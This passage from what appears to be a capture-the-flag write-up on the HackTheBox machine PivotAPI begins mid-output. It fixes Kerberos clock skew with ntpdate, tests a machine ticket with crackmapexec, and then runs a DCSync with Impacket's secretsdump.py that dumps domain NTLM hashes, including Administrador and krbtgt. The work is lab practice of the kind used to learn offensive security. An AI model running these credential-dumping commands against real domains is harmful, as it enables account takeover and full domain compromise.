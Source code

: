     [-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user          
    [*] Cleaning up...       
    

Trying to use this ticket with `crackmapexec` will show a more descriptive
error:

    
    
    oxdf@parrot$ crackmapexec smb pivotapi.licordebellota.htb -k
    SMB         10.10.10.240    445    PIVOTAPI         [*] Windows 10.0 Build 17763 x64 (name:PIVOTAPI) (domain:LicorDeBellota.htb) (signing:True) (SMBv1:False)
    SMB         10.10.10.240    445    PIVOTAPI         [-] LicorDeBellota.htb Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great) 
    

`ntpdate -u [ip]` will update my local system time to that of the server at
the given IP. Some tricks that I found useful:

  * Changing the time this way seemed to kill my VPN connection. I lost some frustrating time not realizing I wasn’t connected any more. A quick reconnection after changing the time fixed that.
  * VirtualBox is constantly trying to sync it’s guest VMs with the host time. I had to turn off the service on my host to get it to stop that. On my Ubuntu host, that was `sudo service virtualbox-guest-utils stop`.

Once I run that, it updates my clock:

    
    
    oxdf@parrot$ sudo ntpdate -u 10.10.10.240
     7 Nov 16:31:39 ntpdate[484337]: step time server 10.10.10.240 offset +557.901133 sec
    

Now I can `crackmapexec`:

    
    
    oxdf@parrot$ crackmapexec smb pivotapi.licordebellota.htb -k
    SMB         pivotapi.licordebellota.htb 445    PIVOTAPI         [*] Windows 10.0 Build 17763 x64 (name:PIVOTAPI) (domain:LicorDeBellota.htb) (signing:True) (SMBv1:False)
    SMB         pivotapi.licordebellota.htb 445    PIVOTAPI         [+] LicorDeBellota.htb\PIVOTAPI$ 
    

#### Hashes

With the time offset fixed, I can DC Sync:

    
    
    oxdf@parrot$ secretsdump.py LICORDEBELLOTA.HTB/pivotapi\$@pivotapi.licordebellota.htb -dc-ip 10.10.10.240 -no-pass -k                                                          
    Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation
    
    [-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets                            
    Administrador:500:aad3b435b51404eeaad3b435b51404ee:efbb8ce4a3ea4cdd0377e13a6fe9e37e:::
    Invitado:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3fc8c66f79c15020a2c2c7f1cffd8049:::
    cybervaca:1000:aad3b435b51404eeaad3b435b51404ee:c33f387f6f7ab01aa1a8a29039d9feef:::
    LicorDeBellota.htb\3v4Si0N:1107:aad3b435b51404eeaad3b435b51404ee:bcc9e3e5704ae1c7a91cbef273ff23e5:::
    LicorDeBellota.htb\Kaorz:1109:aad3b435b51404eeaad3b435b51404ee:9c26ac73552428b4b624e7fbcc720b85:::
    LicorDeBellota.htb\jari:1116:aad3b435b51404eeaad3b435b51404ee:139fcd90ef171f43ef5b48025f773848:::
    LicorDeBellota.htb\superfume:1117:aad3b435b51404eeaad3b435b51404ee:cff95776a76ea23a8106d6653daa4cbc:::
    LicorDeBellota.htb\Dr.Zaiuss:1118:aad3b435b51404eeaad3b435b51404ee:cff95776a76ea23a8106d6653daa4cbc:::
    ...[snip]...
    